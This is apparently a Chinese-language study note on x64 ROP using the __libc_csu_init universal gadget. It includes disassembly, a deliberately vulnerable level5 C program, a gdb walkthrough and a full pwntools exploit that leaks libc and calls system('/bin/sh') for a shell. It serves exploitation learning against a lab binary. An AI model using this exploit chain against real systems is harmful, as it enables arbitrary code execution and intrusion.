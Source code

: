 ### 通用rop的学习

之 每次看都能发现新东西。



> 在x64下有一些万能gadgets可以利用，比如我们用objdump -d level5观察一下__libc_csu_init()这个函数，一般来说，只要程序调用了libc.so，程序都会有这个函数来对libc进行初始化操作。

我们来看一下函数

```assembly
##libc-2.23.so

00000000004005c0 <__libc_csu_init>:
  4005c0:	41 57                	push   %r15
  4005c2:	41 56                	push   %r14
  4005c4:	41 89 ff             	mov    %edi,%r15d
  4005c7:	41 55                	push   %r13
  4005c9:	41 54                	push   %r12
  4005cb:	4c 8d 25 3e 08 20 00 	lea    0x20083e(%rip),%r12        # 600e10 <__frame_dummy_init_array_entry>
  4005d2:	55                   	push   %rbp
  4005d3:	48 8d 2d 3e 08 20 00 	lea    0x20083e(%rip),%rbp        # 600e18 <__init_array_end>
  4005da:	53                   	push   %rbx
  4005db:	49 89 f6             	mov    %rsi,%r14
  4005de:	49 89 d5             	mov    %rdx,%r13
  4005e1:	4c 29 e5             	sub    %r12,%rbp
  4005e4:	48 83 ec 08          	sub    $0x8,%rsp
  4005e8:	48 c1 fd 03          	sar    $0x3,%rbp
  4005ec:	e8 0f fe ff ff       	callq  400400 <_init>
  4005f1:	48 85 ed             	test   %rbp,%rbp
  4005f4:	74 20                	je     400616 <__libc_csu_init+0x56>
  4005f6:	31 db                	xor    %ebx,%ebx
  4005f8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4005ff:	00
  400600:	4c 89 ea             	mov    %r13,%rdx
  400603:	4c 89 f6             	mov    %r14,%rsi
  400606:	44 89 ff             	mov    %r15d,%edi
  400609:	41 ff 14 dc          	callq  *(%r12,%rbx,8)
  40060d:	48 83 c3 01          	add    $0x1,%rbx
  400611:	48 39 eb             	cmp    %rbp,%rbx
  400614:	75 ea                	jne    400600 <__libc_csu_init+0x40>
  400616:	48 83 c4 08          	add    $0x8,%rsp
  40061a:	5b                   	pop    %rbx
  40061b:	5d                   	pop    %rbp
  40061c:	41 5c                	pop    %r12
  40061e:	41 5d                	pop    %r13
  400620:	41 5e                	pop    %r14
  400622:	41 5f                	pop    %r15
  400624:	c3                   	retq
  400625:	90                   	nop
  400626:	66 2e 0f 1f 84 00 00 	nopw   %cs:0x0(%rax,%rax,1)
  40062d:	00 00 00
```



我们看一下地址 0x040061a 到 0x000624我们可以通过将数据填写在栈上来控制寄存器 rbx、rbp、r12、r13、r14、r15的值。然后发现 地址0x400600处，r13修改rdx的值，r14修改rsi的值，r15修改rdi的值，刚好是存储函数参数的三个寄存器。



level5的源码如下：

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}
int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```

利用思路位：

* 泄漏出write函数的地址，得出libc基地址。

* 通过再次调用write函数将system地址写入到write的got表中。
* 再次调用write函数，实际调用的是system函数，得到shell。



根据利用思路，构造3个payload，我们来调试一下：

```python
from pwn import *

p = process('./level5')
elf = ELF('level5')

p.recvuntil("Hello, World\n")

write_got = elf.got['write']
payload1 = 136*"\x00"  ## *两边不能有空格
payload1 += p64(0x040061a) + p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)
payload1 += p64(0x0400600)
raw_input()

print "\n#############sending payload1#############\n"
p.sendline(payload1)
raw_input()
```



第一个raw_input()是在发送payload之前attach上去，这样能具体的观察到发送前后内存的变化，最后一行raw_input()是在发送payload后挂住脚本防止level5直接退出。

如图所示，进程的PID号为4597.用gdb命令`gdb attach 4597`后即可附加到进程上。在py脚本中按一下回车，这时会执行p.send(payload1)。接下来正式开始调试，以下命令均在gdb中进行。

此时程序执行到read(STDIN_FILENO, buf, 512)，我们按`n`后，程序执行完read，将我们的payload读到了栈上。我们输入了136个`0`，然后是通用gadget的起始位置`0x40061a`。



我们看一下内存情况：

<img src="/Users/liqingyuan/Desktop/1.png" alt="1" style="zoom:50%;" />

可以看到目标寄存器都变成我们要修改的值，然后要跳到0x400600来给 rdi、rsi、rdx赋值，然后再执行call执行，执行write函数，这样就将 write函数的got值打印出来了。打印write函数的之后，我们需要再跳到main函数中，再利用overflow。那main函数的地址应该写在哪里呢？我们继续往下执行看看：



<img src="/Users/liqingyuan/Desktop/2.png" alt="2" style="zoom:50%;" />

执行完call执行之后，会对rbx进行加1的操作，同时比较rbx和rbp的值，相同时zf=1，jne不跳转，继续执行。可以看到rsp所指向地址不断升高，所以接下来需要填充56个字节（都为0），然后又可以跳转到ret所填写的位置。所以payload1的完整写法为：

```python
payload1 = 136*"\x00"  ## *两边不能有空格
payload1 += p64(0x040061a) + p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)
payload1 += p64(0x0400600)
payload1 += 56*"\x00" + p64(main_addr)
```





```python
from pwn import *
#context.log_level = 'debug'
p = process('./level5')
elf = ELF('level5')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p.recvuntil("Hello, World\n")

write_got = elf.got['write']
main_addr = 0x0400587
read_got = elf.got['read']

payload1 = 136*'\x00'
payload1 += p64(0x040061a) + p64(0)+p64(1)+p64(write_got)+p64(8)+p64(write_got)+p64(1)
payload1 += p64(0x0400600)
payload1 += 56*'\x00'
payload1 += p64(main_addr)
#raw_input()
print "\n#############sending payload1#############\n"
p.sendline(payload1)
#raw_input()
write_addr = u64(p.recv(8))
print "write_addr = "+hex(write_addr)

bss_addr = 0x0601040
p.recvuntil("Hello, World\n")
payload2 = 136*'\x00'
##                覆盖返回地址                  执行的函数   参数三     参数二       参数一
payload2 += p64(0x040061a) + p64(0)+p64(1)+p64(read_got)+p64(16)+p64(bss_addr)+p64(0)
payload2 += p64(0x0400600) ## 将刚才放在栈上的参数放入放入相应的寄存器中。
payload2 += 56*'\x00'
payload2 += p64(main_addr) ##重新返回值main函数 main函数的首地址

print "\n#############sending payload2#############\n"
p.send(payload2)

system_addr = write_addr-(libc.sym['write']-libc.sym['system'])
print "system_addr = "+hex(system_addr)
#payload = p64(system_addr)+"/bin/sh\x00"
p.send(p64(system_addr)+"/bin/sh\x00")

raw_input()

payload3 = 136*'\x00'
payload3 += p64(0x040061a) + p64(0)+p64(1)+p64(bss_addr)+p64(0)+p64(0)+p64(bss_addr+8)
payload3 += p64(0x0400600)
payload3 += 56*'\x00'
payload3 += p64(main_addr)

p.recvuntil("Hello, World\n")

print "\n#############sending payload3#############\n"
p.send(payload3)

p.interactive()
```



###### hex()输出的是字符串，可以和字符串拼接如代码

```python
print "system_addr = "+hex(system_addr)
```

但是如果是 print "system_addr = "+ system_addr 就会 报错，提示两种类型不能进行拼接？

###### 得到got地址之后，将内容进行输出 直接u32(recv()) 得到的就是int型的 可以直接进行加减的地址值。

比如代码如下：

```python
write_addr = u64(p.recv(8))
print "write_addr = "+hex(write_addr)
```

可以看到，如果想和字符串拼接的话，hex可以将地址值转换为十六进制，然后还可以将int型 转换为字符串，进行拼接。





### 参考链接

[一步一步学ROP之Linux_x64篇](https://www.dazhuanlan.com/2019/12/25/5e0299bfd8d89/)

[ROP学习：利用通用gadget]([https://chybeta.github.io/2017/08/09/ROP%E5%AD%A6%E4%B9%A0%EF%BC%9A%E5%88%A9%E7%94%A8%E9%80%9A%E7%94%A8gadget/](https://chybeta.github.io/2017/08/09/ROP学习：利用通用gadget/))

